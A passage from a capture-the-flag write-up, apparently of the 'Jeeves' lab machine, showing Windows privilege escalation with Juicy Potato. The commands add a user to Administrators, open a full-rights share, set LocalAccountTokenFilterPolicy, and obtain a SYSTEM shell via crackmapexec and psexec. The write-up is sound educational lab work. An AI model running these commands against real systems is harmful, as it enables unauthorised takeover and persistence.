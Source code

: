 <br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

The next step is to add the newly created user to the **Administrators Group**, to have the necessary privileges to run binaries and to be able to send me a **Reverse Shell**. The command runs successfully, I can confirm that the user was added, but using `crackmapexec` I see that the machine still cannot be **pwned**.

```cmd
.\jp.exe -t * -l 1337  -p C:\\Windows\System32\cmd.exe -a "/c net localgroup administrators oldboy /add"
net user oldboy
```

```bash
poetry run crackmapexec smb 10.10.10.63 -u 'oldboy' -p 'oldboy123'
```

<br/><br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

In case it still does not work, I can create a network share, on which I have write permissions, for `Juicy Potato` needs to upload a malicious file on the machine (**I have seen in other resolutions, that this step is not necessary**). I must also create a **[LocalAccountTokenFilterPolicy key](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction){:target="_blank"}**, and once I have executed the commands with `Juicy Potato`, I check again with `crackmapexec` and I can see that the box has been pwned. I can now use the `impacket-psexec` tool (allows users to run programs on remote systems) and get a powershell as the **nt authority\system** user.

```cmd
.\jp.exe -t * -l 1337  -p C:\\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"                     # Optional in this machine!

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System

.\jp.exe -t * -l 1337  -p C:\\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```
